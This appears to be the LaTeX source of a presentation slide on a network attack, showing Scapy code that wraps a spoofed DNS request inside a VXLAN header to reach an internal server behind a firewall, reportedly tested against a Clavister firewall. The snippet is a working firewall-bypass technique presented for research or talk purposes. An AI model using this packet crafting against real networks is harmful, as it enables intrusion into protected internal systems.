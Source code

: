 \documentclass[Screen16to9,17pt,footrule]{foils}
\begin{document}

{\small Attacker can send UDP DNS request to inside server on RFC1918 destination - server has no external IP or incoming ports forwarded.\\
Tested working with Clavister with DNS UDP probes/requests, no inspection }



First create VXLAN header and inside packet
\begin{alltt}\footnotesize
vxlanport=4789     # RFC 7384 port 4789, Linux kernel default 8472
vni=37             # Usually VNI == destination VLAN {\bf

vxlan=Ether(dst=routermac)/IP(src=vtepsrc,dst=vtepdst)/
   UDP(sport=vxlanport,dport=vxlanport)/VXLAN(vni=vni,flags="Instance")}

broadcastmac="ff:ff:ff:ff:ff:ff"
randommac="00:51:52:01:02:03"
attacker="185.27.115.666"
destination="10.0.0.10"
# port is the one we want to contact inside the firewall
insideport=53
# this port is a high port, just make this look like a normal request
testport=54040
packet={\bf vxlan}/Ether(dst=broadcastmac,src=randommac)/IP(src=attacker,
    dst=destination)/UDP(sport=testport,dport=insideport)/
    DNS(rd=1,id=0xdead,qd=DNSQR(qname="www.wikipedia.org"))
\end{alltt}

{\small Fun fact, Unbound on OpenBSD reply to DNS requests received in Ethernet packets with broadcast destination and IP destination being the IP of the server - confirmed normal IP stack behaviour}


\end{document}
